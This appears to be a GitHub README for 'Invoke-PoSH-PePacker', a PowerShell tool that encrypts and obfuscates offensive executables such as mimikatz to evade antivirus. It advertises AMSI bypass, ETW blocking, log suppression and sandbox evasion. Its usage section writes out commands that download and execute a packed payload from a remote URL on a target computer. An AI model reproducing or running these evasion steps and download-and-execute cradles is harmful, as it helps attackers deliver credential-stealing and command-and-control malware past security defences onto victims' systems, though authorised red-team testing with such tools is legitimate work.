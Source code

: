 ### Invoke-PoSH-PePacker.ps1
--------------------------------------
'Invoke-PoSH-PePacker' allows to pack and encrypt offensive PE files in order to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted PowerShell script that contains the PE file.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - Reflective PE injection (based on an updated version of 'Invoke-ReflectivePEInjection')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate an obfuscated & encrypted PowerShell script that contains your PE file (e.g. mimikatz.exe, havocdemon.exe) stored locally or on a remote web server.
```
PS C:\> Import-Module ./Invoke-PoSH-PePacker.ps1
PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1
--- or ---
PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox
``` 
```
PS C:\> Import-Module ./Invoke-PoSH-PePacker.ps1
PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 
--- or ---
PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox
```
  - Step 2. Download & execute the obfuscated & encrypted PowerShell script (that contains your PE file) on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE
--- or ---
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE argument1 argument2 ...
--- or ---
PS C:\> WGET -URI https://URL/Packed-PE-file.ps1 -OutFile C:\temp\Packed-PE-file.ps1
PS C:\> Import-Module C:\temp\Packed-PE-file.ps1
PS C:\> Execute-PE
        or 
PS C:\> Execute-PE argument1 argument2 ...
``` 

#### LICENSE
  - GNU General Public License v3.0
